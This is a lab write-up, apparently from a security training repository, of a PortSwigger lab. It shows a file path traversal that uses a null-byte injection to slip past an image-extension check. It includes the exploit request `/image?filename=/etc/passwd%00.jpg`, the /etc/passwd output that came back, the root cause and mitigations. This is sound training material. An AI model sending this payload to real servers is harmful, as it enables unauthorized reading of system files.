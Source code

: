 # Lab Report: File Path Traversal (Validation of File Extension with Null Byte Bypass)

## Overview
This lab demonstrates a **File Path Traversal** vulnerability where the application performs a naive validation of file extensions (for example, ensuring filenames end with `.jpg`) but can be bypassed using a **null byte (`%00`) injection**. By injecting a null byte into the `filename` parameter we can terminate the server-side string early and make the server treat an attacker-supplied absolute path (for example `/etc/passwd`) as an allowed image filename.

The goal of this lab was to retrieve the contents of the `/etc/passwd` file.

---

## Steps to Exploitation

### 1. Initial Request
The application used a request parameter `filename` to fetch image files. An attempt with relative traversal (`../../../../etc/passwd`) and simple traversal bypasses were blocked. The application also performed an extension check (for example ensuring the filename ends with `.jpg`).

### 2. Null byte (\x00) Injection
Instead of relative traversal, the payload was modified to include a **null byte** (`%00`) after the absolute path and then append a valid extension. This causes the server-side extension validation to see a `.jpg` suffix while the underlying file API treats the null byte as the end-of-string and opens the absolute path.

```
GET /image?filename=/etc/passwd%00.jpg HTTP/2
Host: <LAB-ID>.web-security-academy.net
Cookie: session=<valid-session-cookie>
User-Agent: Mozilla/5.0
Accept: image/avif,image/webp,*/*
```

### 3. Server Response
The server returned the contents of `/etc/passwd`, proving successful exploitation:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

---

## Evidence

### Exploit Request and Response
![Exploit Request and Response](/images/path-traversal-null-byte1.jpg)

### Lab Solved Confirmation
![Lab Solved](/images/path-traversal-null-byte1-lab-solved.jpg)

---

## Result
- Retrieved sensitive system file: `/etc/passwd`  
- Confirmed path traversal vulnerability via null byte bypass of extension validation  
- Lab status:  
  ✅ *"Congratulations, you solved the lab!"*

---

## Root Cause
- Application filtered or validated traversal sequences and checked file extensions, but failed to handle control characters (null byte).  
- Server-side file APIs treated the null byte as a string terminator, causing the opened file to be `/etc/passwd` while validation saw `/etc/passwd\x00.jpg`.

---

## Mitigation
1. **Use Whitelisting** – Restrict file access to specific directories and predefined filenames.  
2. **Canonicalization** – Normalize file paths before usage to remove traversal attempts and control characters.  
3. **Avoid Direct File References** – Use indirect object references (IDs) instead of filenames in user input.  
4. **Reject Control Characters** – Explicitly reject or sanitize null bytes and other control characters in user input.  
5. **Use Safe APIs** – Prefer high-level file APIs and ensure libraries properly handle embedded nulls.

---

## Skills Demonstrated
- Testing for path traversal vulnerabilities  
- Bypassing naive extension checks using null byte injection  
- Retrieving sensitive files from the server (`/etc/passwd`)  
- Confirming exploitation with Burp Suite evidence

---

## References
- [PortSwigger Academy: File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)  
- [OWASP: Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)  


